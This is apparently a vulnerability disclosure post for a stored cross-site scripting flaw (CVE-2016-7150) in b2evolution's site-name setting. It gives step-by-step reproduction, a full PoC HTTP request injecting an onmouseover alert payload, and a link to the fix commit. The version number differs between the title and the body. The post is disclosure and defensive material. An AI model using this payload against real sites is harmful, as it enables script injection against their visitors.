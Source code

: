 ```yaml
---
layout: post
title: B2evolution v6.4.7 website title XSS [CVE-2016-7150]
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-11

下载地址: [b2evolution](http://b2evolution.net/downloads/)

作者: b2evolution.net

作者通知日期: 2016-08-11

作者联系手段: http://b2evolution.net/?disp=msgform

CVE-ID：CVE-2016-7150

**描述:**

b2evolutioe is a content and community management system written in PHP and backed by a MySQL database. It is distributed as free software under the GNU General Public License.
b2evolution originally started as a multi-user multi-blog engine when Fran?ois Planque forked b2evolution from version 0.6.1 of b2/cafelog in 2003.[2] A more widely known fork of b2/cafelog is WordPress. b2evolution is available in web host control panels as a "one click install" web app.[3](Wiki)

**细节:** 

There is stored XSS in b2evolution version 6.7.4

An authentic user can inject javascript code in the website header.

A moderator can change the "Short site name" or the "Longe site name" at back-office site-settings page with something like {test_short_name_xss" onmouseover=alert(1) on}.

Step 1 : Login the back-office as a moderator

Step 2 : Edit the "Short site name" at http://192.168.204.128/b2evolution/
admin.php?ctrl=collections&tab=site_settings with something like {test_short_name_xss" onmouseover=alert(1) on}

Step 3 : Save the changes

Step 4 : Anyone view the site, when the mouse over the content(the header of the site), the XSS code runs.

**PoC:**

`code`
<pre><code>
POST /b2evolution/admin.php HTTP/1.1
Host: 192.168.204.128
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.128/b2evolution/admin.php?ctrl=collections&tab=site_settings
Cookie: session_b2evo_192_168_204_128=50_BTD1n98LyyQAYUsyXDD4Kv9IPvGwEVO0; __smToken=AhuNTZNC8BaMfAVQV7ZpTW5a; evo_style=Variation
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 646

site_code=b2evo&site_color=%23ff8c0f&notification_short_name=test_short_name_xss%22onmouseover%3D%22alert%281%29%22on%3D%221&notification_long_name=_name&notification_logo=http%3A%2F%2Ftesttest1.test&site_footer_text=C%22ookies+are+required+to+enable+core+site+functionality.+%26copy%3B%24year%24+by+%24short_site_name%24.&site_skins_enabled=1&site_terms=12&default_blog_ID=1&info_blog_ID=1&login_blog_ID=1&msg_blog_ID=1&reloadpage_timeout_value=5&reloadpage_timeout_name=minute&general_cache_enabled=1&submit=Save+Changes%21&crumb_collectionsettings=cxoiVqilvis2bz9Se6WJsIc2DTgvhQFX&ctrl=collections&tab=site_settings&action=update_settings_site

</code></pre>

**Fix:**

https://github.com/b2evolution/b2evolution/commit/dd975fff7fce81bf12f9c59edb1a99475747c83c